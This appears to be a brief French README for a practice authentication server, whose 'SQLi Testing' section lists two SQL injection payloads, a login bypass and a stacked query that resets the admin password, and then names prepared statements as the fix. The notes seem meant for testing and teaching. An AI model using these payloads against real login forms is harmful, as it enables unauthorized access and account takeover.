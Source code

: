 # Codes du seveur d'authentification
Généré par ChatGPT

# SQLi Testing
## Modifier MDP admin
```
' OR '1'='1`;UPDATE users SET password = 'nouveau_mot_de_passe' WHERE username = 'admin';`

```
## Se connecter sans mot de passe
```
' OR '1'='1
```
## Luter contre ce problème
Utiliser des prepared request/statements pour gérer l'authentification.

